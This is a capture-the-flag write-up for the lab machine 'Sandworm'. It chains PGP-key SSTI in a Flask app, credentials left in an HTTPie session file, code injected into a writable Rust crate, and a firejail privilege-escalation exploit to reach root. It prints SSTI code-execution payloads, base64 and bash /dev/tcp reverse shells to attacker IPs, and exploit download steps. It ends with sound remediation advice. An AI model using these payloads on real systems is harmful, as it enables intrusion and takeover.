




# Sandworm

- [Sandworm](#sandworm)
  - [Service Enumeration](#service-enumeration)
  - [Using PGP Keys](#using-pgp-keys)
    - [Import the SSA public key](#import-the-ssa-public-key)
    - [Encrypt using the SSA public key](#encrypt-using-the-ssa-public-key)
    - [Encrypt/decrypt using own keypair](#encryptdecrypt-using-own-keypair)
    - [Verify our keypair's signature](#verify-our-keypairs-signature)
  - [Finding a Foothold](#finding-a-foothold)
  - [Low-Privilege Access](#low-privilege-access)
  - [Searching for Privilege Escalation](#searching-for-privilege-escalation)
  - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Service Enumeration
A port scan reveals the machine is running SSH and web servers on 80 and 443. Port 80 ends up redirecting to 443.

 <br>

Navigating to `https://10.10.11.218/` brings us to the Secret Spy Agency homepage.

 <br>

Start a web directory scan.
```bash
feroxbuster -u https://10.10.11.218 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -n -r --smart
```

While the scan runs, look around the site. The Contact page (`/contact`) contains a form that accepts PGP-encrypted text. Underneath that form is a link to the PGP Encryption Demonstration page (`/guide`). It contains a link to the SSA public key (`/pgp`), notes on what to do with it, and tools to practice using PGP keys.

 <br><br>

The web directory scan found an interesting page: `/login`. <br>

 <br>

## Using PGP Keys
> This section walks through how to use PGP keys and test them with the tools at `/guide`. It will be useful in [Finding a Foothold](#finding-a-foothold).

### Import the SSA public key
Go to `/pgp` and save the output.

Use GPG to import the key.
```bash
gpg --import ssa-pgp.pub
```
 <br>

Verify key is imported - note the key fingerprint; that will be used later to identify and reference the key.
```bash
gpg --list-keys
```
 <br>

### Encrypt using the SSA public key
Create a test file.
```bash
echo "encrypted test message" > test-msg.txt
```

Encrypt file - will append .asc to original filename. The `--armor` option outputs the file into a human-readable format.
```bash
gpg --encrypt --armor --recipient D6BA9423021A0839CCC6F3C8C61D429110B625D4 test-msg.txt
```
 <br><br>

 <br>

Go to `/guide` . Paste into the text box labeled **Encrypted Text** then click **Decrypt Message**.

 <br>

Our original message will show up in the **Decrypted Message** box.

 <br>

### Encrypt/decrypt using own keypair
Generate a new keypair using the command below. Follow prompts; this includes setting a passphrase.
```bash
gpg --gen-key
```
 <br>

Note the key fingerprint; that will be used later to identify and reference the key.

 <br>

Export the public key. The `--armor` option outputs the key into a human-readable format.

 <br>

Go to `/guide`. In the second row of text boxes, there is a box labeled **Public Key**. Paste our key into that box and click **Encrypt Message**. 

 <br>

Copy the encrypted message block and save to a file.

 <br>

Decrypt the file by running the command below. Input the passphrase when prompted.
```bash
gpg --decrypt --output kera-ssa-d579-decrypted-msg.txt --recipient 8844C3C47AD98D069834AE5CEE7F6EB94515D579 kera-ssa-d579-encrypted-msg.txt
```
 <br>

### Verify our keypair's signature
Sign (but not encrypt) a file with our key. This time the `--local-user` option is used to specify the key.
```bash
gpg --sign --output test-msg-signed-with-kera-d579.txt --armor --local-user 8844C3C47AD98D069834AE5CEE7F6EB94515D579 test-msg.txt
```
 <br>

Go to `/guide`. Paste our public key and signed message into the third row of boxes then click **Verify Signature**.

 <br>

Results of the verification will appear in a pop-up window.

 <br>

It matches the output of a gpg command.
```bash
gpg --verify --status-fd=2 --local-user 8844C3C47AD98D069834AE5CEE7F6EB94515D579 test-msg-signed-with-kera-d579.txt
```
 <br>

## Finding a Foothold
Several paths were explored but proved unsuccessful, including:
- Entry using the admin panel at `/login`.
- Encrypting Linux commands with the SSA public key. Tried at both `/guide` and `/contact` pages.
- Adding commands before/after the **Public Key** and **Signed Text** boxes.

However, the signature verification results show the "Real name" of our supplied key. This gives us some control over that output The example below shows a key that uses `"Ker'a' Last"` as the name.

 <br>

Using quotes didn't mess anything up. Maybe there is a some way to have the server execute code.

The website footer mentions [Flask](https://pythonbasics.org/what-is-flask-python/), which is a nice clue.

 <br>

A search for `python flask rce` led to this [blog post](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) by Ingo Kleiber which explains how the Jinja2 template engine used by Flask to render web pages is vulnerable to Server-Side Template Injection (SSTI) and also provides RCE examples.

In Kleiber's example, the payload goes directly into the vulnerable parameter `payload`.

Our situation is a bit different. The payload is provided during key creation and the exported key is what goes into the parameter. While not immediately visible, inspecting the web requests confirm that our **Public Key** form has the parameter name `public_key`.

Test for this vulnerability by creating a new keypair and using a [Jinja expression](https://tedboy.github.io/jinja2/templ13.html) for the "Real name".

&emsp;&emsp;Real name: `{{99*10}}`

 <br>

Verify the keypair's signature through the web application (covered in [Using PGP Keys](#using-pgp-keys)). The output should show **990** twice. This means the server evaluated our expression. Progress! :D

 <br>

Repeat the same process using a longer payload to run the `id` command. Our user is `atlas`!

&emsp;&emsp;Real name: `{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`

 <br>

Repeating the process with other commands quickly becomes frustrating because many of them do not work. I created a Python script to automate the steps of creating a new keypair with a payload, verifying the signature, displaying the results, and deleting the key afterwards. Note that it requires the `python-gnupg` library, available via pip.

Edit the `cmd` variable with your payload and the `gpg` variable with your GPG directory. 

Run the script with no arguments:
```
python3 process-inject-cmd.py
```

Example using `ls -la`:

 <br>

 <br>

## Low-Privilege Access
Create a base64-encoded Python reverse shell.
```
base64 -w0 << 'EOF'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.19",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
EOF
```
 <br>

The command used to launch the shell will be: `echo *b64 string* | base64 -d | bash`.

In the `process-inject-cmd.py` script, edit the `cmd` variable to include that command. For example:
```
cmd = "{{request.application.__globals__.__builtins__.__import__('os').popen('echo cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAuMTQuMTkiLDQ0MykpO29zLmR1cDIocy5maWxlbm8oKSwwKTsgb3MuZHVwMihzLmZpbGVubygpLDEpOyBvcy5kdXAyKHMuZmlsZW5vKCksMik7cD1zdWJwcm9jZXNzLmNhbGwoWyIvYmluL2Jhc2giLCItaSJdKTsnCg== | base64 -d | bash').read()}}"
```

Setup a Netcat listener and run the script to get a shell.

 <br>

Access is limited. For example, listing the directories in `$PATH` results in the same output: a handful of binaries owned by `nobody:nogroup`. This answers the question of why many commands did not work.

 <br>

A session file for [HTTPie](https://httpie.io/), located at `/home/atlas/.config/httpie/sessions/localhost_5000/admin.json`, contains cleartext credentials for the user `silentobserver`. Perhaps this is related to the web application.

 <br>

Successful login to the SSA admin panel.

 <br>

The same credentials also work for SSH.

 <br>

The flag is located at `/home/silentobserver/user.txt`.

## Searching for Privilege Escalation
> Do not exit out of the shell running as atlas.

`silentobserver` can read a [firejail](https://firejail.wordpress.com/) config file in the atlas home directory that the latter didn't have access to. The file is located at: `/home/atlas/.config/firejail/webapp.profile`.

 <br>

The process listing confirms that the SSA web application is run via firejail to provide a restricted environment.

 <br>

Trying to run firejail as `silentobserver` results in failure. Only the root user and members of the jailer group can do it. We do have permissions for a related tool named firemon, running at **v0.9.68**.

 <br>

A search reveals that firejail **v0.9.68** has a local privilege escalation [vulnerability](https://seclists.org/oss-sec/2022/q2/188). Certain parts of firejail run with root privileges, which can be leveraged to create and join a container (restricted environment) that will allow us to escalate privileges. Matthias Gerstner, who discovered the vulnerability, has also provided a Python [exploit](https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py.bin). The core requirement is the ability to run firejail.

While it's not certain if the version of firemon will match firejail, it's worth exploring.

The running processes showed that `atlas` is able to run firejail. A look at the group membership confirms it is part of the jailers group. Unfortunately, firejail was not part of the list of binaries allowed to run inside the restricted environment. We need to break out of the jail before attempting the exploit.

 <br>

As `silentobserver`, we can access two interesting directories:
- `/opt/tipnet`
- `/opt/crates`

**tipnet** is a tool for querying submissions made via the SSA `/contact` page. It regularly checks for new submissions and places them into a database.

 <br>

**crates** contains helper code used by the tool.

 <br>

Code at `/opt/crates/logger/src/lib.rs` shows tipnet will write logs to a file named `access.log`. Note that `silentobserver` has write access to it.

 <br>

Database appears to be updated every 2 minutes. Maybe the helper code can be controlled?

 <br>

Create a bogus log file and open up write permissions.
```bash
mdkir /tmp/xa
echo "test log file" > /tmp/xa/access.log
chmod 777 /tmp/xa/access.log
```

Backup and edit `/opt/crates/logger/src/lib.rs` so it write logs to `/tmp/xa/access.log`. Wait until the next update.

 <br>

The `/opt/crates` directory seems to reset regularly, wiping out the changes. Future edits will be done on the attacking machine and uploaded to Sandworm.
- Filename used will be `crates-logger-lib-modified.rs`

An alternative is to force an update by manually running `/opt/tipnet/target/debug/tipnet`. It doesn't prevent files from being reset but can allow multiple executions. Issues will occur when trying to run it too many times in succession; wait a bit in between attempts.

Try adding code to run `whoami`.
```rust
let shell_cmd = Command::new("/tmp/xa/scriptx.sh")
.output()
.expect("Failed to run command.");
let shell_cmd_output = String::from_utf8(shell_cmd.stdout).unwrap();
```

Edit log message to include command output.
```rust
let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}, Cmd Output for scriptX {}\n", timestamp, user, query, justification, shell_cmd_output);
```

 <br>

Upload to Sandworm. Wait and then check the log file.
```
scp crates-logger-lib-modified.rs silentobserver@10.10.11.218:/opt/crates/logger/src/lib.rs
```

 <br>

Success! :D

Let's repeat the same process but with a reverse shell payload. Start a Netcat listener and upload the code.
```rust
let shell_cmd = Command::new("bash -i >& /dev/tcp/10.10.14.45/5678 0>&1")
```

 <br>

Nothing happened. The access log shows an error message.

 <br>

Attempts with other commands point to issues with whitespaces. Instead of supplying commands directly, let's try placing them into a shell script.

## Root Access
Place two reverse shell payloads into a shell script named `atlas_rshell.sh`. The second shell will be used if the firejail exploit succeeds.
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.42/5678 0>&1;
bash -i >& /dev/tcp/10.10.14.42/5679 0>&1;
```

Upload `atlas_rshell.sh` to Sandworm.
```
scp atlas_rshell.sh silentobserver@10.10.11.218:/tmp/xa/atlas_rshell.sh
```

As `silentobserver`, set permissions on the script.
```
chmod +x /tmp/xa/atlas_rshell.sh
```

A copy of `crates-logger-lib-modified.rs` running the shell script is included in the repo. 

 <br>


Start a Netcat listener and upload the code to Sandworm.
```
nc -nlvp 5678
nc -nlvp 5679
scp crates-logger-lib-modified.rs silentobserver@10.10.11.218:/opt/crates/logger/src/lib.rs
```

After 2 minutes (or a manual run of tipnet), both shells should appear.
> There may be a slight delay for the second shell.

 <br>

As `atlas`, we can see more binaries and the owner is no longer `nobody:nogroup`.

 <br>

Download and transfer the firejail exploit.
```
wget https://seclists.org/oss-sec/2022/q2/att-188/firejoin_py.bin -O firejail-expl.py
scp firejail-expl.py silentobserver@10.10.11.218:/tmp/xa/firejail-expl.py
```

As `silentobserver`, set permissions on the exploit.
```
chmod 777 /tmp/xa/firejail-expl.py
```

On the first `atlas` shell, upgrade to an interactive shell and run the exploit.
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 /tmp/xa/firejail-expl.py
```

 <br>

On the second `atlas` shell, join the container specified in the command and then run `su` to obtain root.
```
firejoin --join=3204
```
 <br>

Root flag is located at `/root/root.txt`.

## Findings and Recommendations
**Server-Side Template Injection**

Examination of `app.py` indicates that displaying the full output (`verified.stderr`) of the PGP signature verification provided the avenue for a low-privilege shell as `atlas`. Showing only the key's fingerprint (`fp`) can communicate the results without the possibility of code execution.

 <br>

**Unsecured SSH credentials**

Cleartext credentials for `silentobserver` were stored at `/home/atlas/.config/httpie/sessions/localhost_5000/admin.json` and were reused for SSH access.

The use of unique, passwordless, or multi-factor credentials could've prevented lateral movement from `atlas` to `silentobserver`.

 <br>

**Insecure file permissions**

The permissions of `/opt/crates/logger` allowed `silentobserver` to inject code. Modifying the group permissions could've prevented `atlas` from gaining an unrestricted shell.

 <br>

**Vulnerable application**

firejail v0.9.68 is vulnerable to local privilege escalation. The issue was fixed in [v0.9.70](https://firejail.wordpress.com/download-2/release-notes/).

 <br>